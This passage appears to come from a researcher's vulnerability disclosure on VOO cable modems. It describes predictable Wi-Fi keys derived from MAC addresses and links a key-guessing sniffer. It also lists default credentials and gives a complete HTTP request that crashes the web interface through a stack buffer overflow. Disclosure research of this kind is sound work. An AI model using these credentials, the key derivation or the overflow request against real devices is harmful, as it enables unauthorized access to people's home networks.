 As we can see in the diagram below, 63% of affected devices use a "MAC distance" of three. This means that for all these devices, the derivation is immediate and a bruteforcing approach is not required.

We are confident that the remaining 37% percent use a MAC naming convention as predictable as this one, but with differing Organizationally Unique Identier between IP Stack6 and IP Stack1 interfaces.

{:.foo}
![Distribution of observed MAC distance between IP Stack1 and IP Stack6 interfaces.]({{site.url}}/assets/voo_mac_distance.png)

A reference implementation of a network sniffer that guess pre-shared key of all affected devices in the vicinity is available in the [dedicated repository](https://github.com/QKaiser/voodoo).

### Weak Default Credentials

Multiple default accounts with weak passwords have been identified:

- **MSO:changeme** - can access the web interface over https://192.168.0.1:8443/
- **admin:admin** - can access the router over Telnet or SSH via IP Stack1 interface, when these services are enabled. IP Stack1 is the interface exposed to the ISP OSS network.
- **readyshare:readyshare** - DLNA/SMB account (not used by VOO at the moment)

### Buffer Overflow

The web administration interface of the modem is riddled with calls to memory unsafe C functions such as *strcpy*, leaving the device vulnerable to remote buffer overflows.

It's possible to trigger a stack overflow by sending an HTTP request such as the one displayed below. Sending the request will trigger a crash, with a detailed crash log (see next figure) provided by eCOS over serial or telnet connection.

{% highlight http %}
POST /goform/controle?id=1205828651 HTTP/1.1
Host: 192.168.0.1
Content-Length: 596
Cache-Control: max-age=0
Authorization: Basic dm9vOkhSRExUV0tJ
Origin: http://192.168.0.1
Upgrade-Insecure-Requests: 1
DNT: 1
Content-Type: application/x-www-form-urlencoded
Referer: http://192.168.0.1/controle.htm
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9,fr;q=0.8
Connection: close

text_keyword=a&text_block=AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA&text_allow=&Action_Add=Add&Action_Del=0&Action_Function=2
{% endhighlight %}
